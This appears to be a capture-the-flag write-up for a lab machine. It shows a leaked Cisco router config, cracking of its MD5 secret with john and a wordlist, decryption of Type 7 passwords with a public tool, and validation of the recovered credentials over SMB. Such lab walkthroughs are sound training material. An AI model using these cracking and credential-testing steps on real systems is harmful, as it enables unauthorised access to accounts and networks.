


# 10 - HTTP


# login.php


There is not much we can do, let's login as guest

# issues.php



User Hazard is having problems with his cisco router. The attachment is the router's config file. Obviously we have a potential user 'Hazard'


# attachment.txt
```sql
// http://10.10.10.149/attachments/config.txt

version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh

```

The number before the hash refers to the hash algorithm that is being used.
secret 5 = MD5
password 7 = Cisco Type 7

# Hashes
| username |                hash                |    type     |
| -------- | ---------------------------------- | ----------- |
| -        | \$1$pdQG$o8nrSzsGXeaduXrjlvKc91    | md5         |
| admin    | 02375012182C1A1D751618034F36415408 | Cisco Type7 |
| rout3r   | 0242114B0E143F015F5D1E161713       | Cisco Type7 |


# MD5 cracked
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]
└──╼ $ john hash  -w=/usr/share/wordlists/rockyou.txt 
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:09 1.51% (ETA: 14:56:21) 0g/s 28203p/s 28203c/s 28203C/s 150309..132425
stealth1agent    (?)
1g 0:00:02:11 DONE (2021-08-04 14:48) 0.007585g/s 26589p/s 26589c/s 26589C/s stealthy001..steak7893
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

# Cisco Type7 Decrypt
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]                                                                                                                                            [4/323]
└──╼ $ git clone https://github.com/theevilbit/ciscot7
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]
└──╼ $ cd ciscot7/
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist/ciscot7]
└──╼ $ python3 ciscot7.py --help
Usage: ciscot7.py [options]

Options:
  -h, --help            show this help message and exit
  -e, --encrypt         Encrypt password
  -d, --decrypt         Decrypt password. This is the default
  -p PASSWORD, --password=PASSWORD
                        Password to encrypt / decrypt
  -f FILE, --file=FILE  Cisco config file, only for decryption

┌─[user@parrot]─[10.10.14.18]─[~/htb/heist/ciscot7]
└──╼ $ python3 ciscot7.py -d -p 02375012182C1A1D751618034F36415408 # admin
Decrypted password: Q4)sJu\Y8qz*A3?d
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist/ciscot7]
└──╼ $ python3 ciscot7.py -d -p 0242114B0E143F015F5D1E161713 # rout3r
Decrypted password: $uperP@ssword
```


# Hazard is a valid user
```bash
┌─[user@parrot]─[10.10.14.18]─[~/htb/heist]
└──╼ $ cme smb 10.10.10.149 -u 'hazard' -p stealth1agent
SMB         10.10.10.149    445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.10.10.149    445    SUPPORTDESK      [+] SupportDesk\hazard:stealth1agent 
```


